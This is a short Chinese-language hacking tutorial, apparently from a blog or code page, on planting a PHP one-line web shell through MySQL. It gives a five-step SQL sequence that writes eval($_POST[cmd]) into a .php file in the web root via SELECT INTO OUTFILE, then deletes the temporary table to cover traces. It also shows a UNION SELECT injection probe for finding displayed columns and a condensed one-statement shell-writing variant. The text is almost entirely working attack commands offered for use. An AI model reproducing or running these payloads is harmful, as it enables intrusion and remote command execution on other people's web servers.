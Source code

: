 ## 基本流程

1. `Drop TABLE IF EXISTS temp;`             //如果存在temp就删掉

2. `Create TABLE temp(cmd text NOT NULL);`           //建立temp表，里面就一个cmd字段

3. `Insert INTO temp (cmd) VALUES('<? php eval($_POST[cmd]);?>');`               //把一句话木马插入到temp表

4. `Select cmd from temp into out file 'F:/wwwroot/eval.php';`               //查询temp表中的一句话并把结果导入到eval.php

5. `Drop TABLE IF EXISTS temp;`                      //删除temp(擦屁股o(∩_∩)o...)


-------
不过想想在测试PHP的SQL漏洞的时候经常用如下的语句：

/**/UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12/*

然后返回的页面中可能会出现1~12之间的数字。这里加入数字3显示出来了。
如果把上面这句改成/**/UNION SELECT 1,2,'zerosoul',4,5,6,7,8,9,10,11,12/*，则返回页面上次显示3的地方会显示zerosoul。
也就是说如果的select语句后面不带from table语句的话，说查询的数字或字符会直接返回到查询结果里。
既然这样，为何还要那么麻烦去建一个表，先导入数据，再导出这样折腾呢。

有了这个思路，上面那一大段到出一句话的SQL代码可以直接简化到一句:

Select '<? php eval($_POST[cmd]);?>' into outfile 'F:/wwwroot/eval.php';
